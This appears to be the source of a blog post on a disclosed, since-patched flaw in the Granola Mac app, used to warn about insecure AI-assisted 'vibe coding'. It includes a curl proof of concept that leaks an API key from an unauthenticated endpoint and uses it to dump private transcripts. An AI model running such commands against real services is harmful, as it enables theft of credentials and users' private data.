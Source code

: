 ```yaml
---
author: Jonathan Haas
pubDate: '2025-05-12'

title: 'When Vibe Coding Goes Wrong: Security Lessons from Granola'

description: 'FIXME: Add a full description for this post.'
featured: false
draft: false
tags:
  - cybersecurity
  - vibe-coding
  - ai-development
  - product-security
  - electron-apps
---
```


Vibe coding is having a moment.  
And honestly? It's kind of awesome.

Type a few sentences into an LLM.  
Get a working app back.  
Ship it. Repeat.

Except when you skip the "understand your code" part...  
You don’t just get quirky bugs.  
You get vulnerabilities.

Granola—a Mac app built with Electron—just gave us a painfully real example.

---

## What Went Wrong at Granola

Researchers found that you could:

1. **Unpack** the app easily (`asar extract` on the `.asar` archive).
1. **Read** through the JavaScript.
1. **Find** API endpoints embedded directly in the client.
1. **Hit** one of those endpoints (`get-feature-flags`) without authentication.
1. **Extract** an AssemblyAI API key from the feature flags.
1. **Use** that key to pull **private transcript data** from AssemblyAI.

### Proof of Concept Looked Like This:

````bash
# Step 1: Leak the API key
curl -X POST "https://api.granola.ai/v1/get-feature-flags" \
 -H "X-Client-Version: 5.226.0" \
 -H "Content-Type: application/json" | jq '.[] | select(.feature=="assembly*key")'

# Step 2: Use the key to dump transcripts
curl https://api.assemblyai.com/v2/transcript \
    -H "Authorization: $apiKey" | jq '.transcripts.[].id' > transcript*ids
cat transcript*ids | head -n 1 | tr -d '"' | while read id; do curl https://api.assemblyai.com/v2/transcript/$id -H "Authorization: $apiKey"; done
```text

### What the Transcripts Had

- Text transcripts of audio recordings.
- Some metadata.
- (Fortunately) **no direct access to raw audio files**.

Still, leaking user conversations—even just as text—is a security incident.
Full stop.

---

## How This Smells Like Vibe Coding

Nobody's saying definitively that Granola was "vibecoded."
But the red flags are textbook:

- Sensitive keys bundled into the client.
- No authentication checks on critical endpoints.
- Client/server boundary confusion.
- Basic security 101 mistakes.

It has the hallmark of someone saying to the AI:

> "Write a cool feature flag system"

...and never stepping back to ask:

> "Wait, should this even be exposed to the client?"

That’s **classic vibe coding**:
Prompt, ship, *hope it works*.

---

## Why Vibe Coding Without Guardrails Is Dangerous

Vibe coding feels magical.
But magic tricks don’t build safe systems.

Without critical layers like:

- **Threat modeling** ("What happens if someone inspects the app?")
- **Secure design** ("Who should be allowed to call this endpoint?")
- **API key management** ("Should keys live in the client?")
- **Principle of least privilege** ("Does this key even need full access?")

You’re not just moving fast.
You're skating blind across a minefield.

### The Hidden Costs of Vibe-Coded Apps

- **Trust Erosion**: Users delete your app—and your brand reputation goes with it.
- **Incident Response**: You scramble to patch, disclose, and recover.
- **Regulatory Exposure**: Privacy laws don’t care if your app was "vibey."
- **Compounding Debt**: Quick fixes become brittle patches on a broken foundation.

---

## The Solution Isn't "No Vibe Coding"

Let’s be clear:
**Vibe coding isn’t the enemy.**

It’s an incredible productivity unlock.
It democratizes building.

But if you’re building with AI-generated code, **you have new responsibilities**:

### 1. Audit Everything

Treat your AI like an enthusiastic intern.
Helpful? Sometimes.
Trustworthy without review? Never.

### 2. Train for Threat Modeling

You don’t have to be a full-time security engineer.
But you do need basic instincts:

- Who gets to call this API?
- What’s the worst thing that could happen here?
- Could this app be unpacked, inspected, reversed?

If you can't answer those questions, you need a security review before launch.

### 3. Lock Down Secrets

Never, ever, ever ship API keys, secrets, or privileged tokens in your client apps.
Use proper backend proxying.
Scope keys narrowly.
Rotate them regularly.

No exceptions.

### 4. Build In Authentication and Authorization Early

Even "just a little" security scaffolding saves you from giant messes later.
Set the bar early:

- Every sensitive API must require auth.
- Every key must be scoped and auditable.
- Every endpoint must assume bad actors are trying to hit it.

---

## Final Thought: It's Only "Vibes" Until It's Real Users

Weekend projects?
Fine. Vibe away. No judgment.

Production apps that handle user data?

**Vibe coding stops. Engineering begins.**

Ship fast.
But ship safe.

Granola’s mistake is a flashing neon sign:
🚨 *The vibes are not enough._ 🚨

---

## Disclosure Timeline (Granola)

- **Feb 18, 2025**: Disclosure contact requested.
- **Feb 26, 2025**: Second request.
- **Mar 10, 2025**: Contact established.
- **Mar 11, 2025**: Issue disclosed to Granola; response received confirming remediation.

✅ API key removed.
✅ Endpoint patched.

But the scar tissue remains—for the users, and for the team.

Let's learn the lesson the easy way.
````
